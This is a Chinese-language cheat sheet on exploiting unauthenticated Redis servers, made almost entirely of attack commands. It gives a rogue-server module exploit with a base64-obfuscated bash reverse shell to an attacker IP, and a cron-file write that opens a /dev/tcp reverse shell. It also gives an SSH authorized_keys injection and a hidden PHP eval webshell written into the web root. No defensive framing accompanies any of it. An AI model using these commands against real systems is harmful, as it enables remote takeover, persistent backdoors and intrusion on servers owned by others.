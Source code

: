# 1.Redis未授权

 [Redis未授权Poc](https://github.com/vulhub/redis-rogue-getshell)

1.获取Poc

> git clone https://github.com/vulhub/redis-rogue-getshell.git

2.编译

> cd redis-rogue-getshell
>
> make

3.执行命令

> python3 redis-master.py -r 10.251.0.189 -p 6379 -L 10.251.0.105 -P 8888 -f RedisModulesSDK/exp.so -c "id"

4.反弹shell

> python3 redis-master.py -r 10.251.0.189 -p 6379 -L 10.251.0.105 -P 8888 -f RedisModulesSDK/exp.so -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yNTEuMC4xMDUvODgwMCAwPiYxCg==|base64 -d|bash"

# 2.写计划任务

1.连接Redis服务器

> redis-cli -h ip 

2.在Redis中执行

> set x "\n * * * * * bash -i >& /dev/tcp/10.251.0.105/8888 0>&1\n"
>
> config set dir /etc/cron.d/
>
> config set dbfilename root
>
> save

3.监听端口

> nc -lp 8888

# 3.写ssh-keygen公钥

1.生成ssh公钥

> ssh-keygen -t rsa

2.将id_rsa.pub写到服务器

> config set dir /ssh/.ssh
>
> config set dbfilename authorized_keys
>
> set x "\n\n[is_rsa.pub内容]\n\n"
>
> save

3.ssh连接服务器

> ssh username@ip

# 4.web路径写webshell

> config set dir /var/www/html/
>
> config set dbfilename .shell.php
>
> set x "<?php eval($_REQUEST['ant']);?>"
>
> save

